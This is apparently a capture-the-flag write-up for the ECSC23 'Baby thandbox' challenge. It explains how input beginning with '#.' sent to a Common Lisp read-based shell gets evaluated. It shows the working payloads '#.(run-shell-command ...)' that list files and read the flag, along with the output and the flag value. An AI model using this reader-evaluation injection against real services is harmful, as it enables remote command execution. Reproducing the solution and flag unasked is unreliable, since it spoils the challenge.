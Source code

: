 # Baby thandbox
> We found an old server with some strange shell.
>
> `nc baby-thandbox.ecsc23.hack.cert.pl 5003`
>
> ```lisp
> (defun echo ()
>     (princ "> ")
>     (setq cmd (read))
>     (case cmd
>         ('help (princ "Available commands:")(print "help")(print "flag")(print "quit"))
>         ('flag (princ "you wish"))
>         ('quit (quit))
>         (otherwise (prin1 cmd)))
>     (terpri)
>     (echo))
> (handler-case
>     (echo)
>     (error (e) (prin1 e)(quit)))
> (quit)
> ```

## read function
The language used in this challenge is Common Lisp. In Common Lisp, the read function automatically parses a representation of an object from stdin. If the representation starts with `#.`, it is automatically evaluated. Common Lisp also defines `run-shell-command`, which is pretty self-explanatory. The final attack looks like this:
```sh
$ nc baby-thandbox.ecsc23.hack.cert.pl 5003
;; Loading file /sandbox ...
> #.(run-shell-command "ls")
bin
etc
flag_144de66289ad4b9ffa8578cb862c7db7.txt
lib
lib64
root
sandbox
sbin
usr
NIL
> #.(run-shell-command "cat flag_144de66289ad4b9ffa8578cb862c7db7.txt")
ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}NIL
>
```

## Flag
`ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}`
